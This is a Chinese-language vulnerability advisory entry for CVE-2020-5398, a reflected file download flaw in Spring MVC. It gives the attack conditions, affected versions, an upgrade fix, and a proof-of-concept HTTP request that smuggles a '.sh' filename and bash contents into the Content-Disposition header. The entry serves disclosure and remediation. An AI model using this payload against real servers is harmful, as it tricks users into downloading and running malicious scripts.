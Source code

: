 ```yaml
---
title: 'CVE-2020-5398-Spring-MVC的RFD（反射文件下载）'
date: Sat, 19 Sep 2020 11:40:22 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

于当地时间1月16日， Pivotal Software（Spring系列）官方发布 Spring Framework 存在 RFD（反射型文件下载漏洞）的漏洞报告，此漏洞为攻击客户端的漏洞，官方将漏洞严重程度评为高。报告指出，当响应中设置了“Content-Disposition”头且filename属性是用户可控时容易受到RFD攻击。攻击应满足以下所有条件才可成功： 1.header使用org.springframework.http.ContentDisposition来预备 2.文件名是通过ContentDisposition.Builder#filename(String) 或 ContentDisposition.Builder#filename(String, US\_ASCII)来设置。 3.文件名（包括文件名后缀）为用户可控。 4.攻击者已将下载的响应内容注入恶意命令。 攻击者可利用RFD漏洞，结合社工等方式，让用户下载一个恶意文件并执行，从而危害用户的终端安全。

#### 影响范围

Spring Framework 5.2.0 to 5.2.2，5.1.0 to 5.1.12，5.0.0 to 5.0.15

#### POC

```
GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1
Host: 192.168.248.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1 
```![](CVE-2020-5398-Spring-MVC的RFD（反射文件下载）.assets/1627364667290241.jpg)

#### 修复建议

请受影响的用户升级至 Spring Framework 5.2.3，5.1.13 或 5.0.16 版本。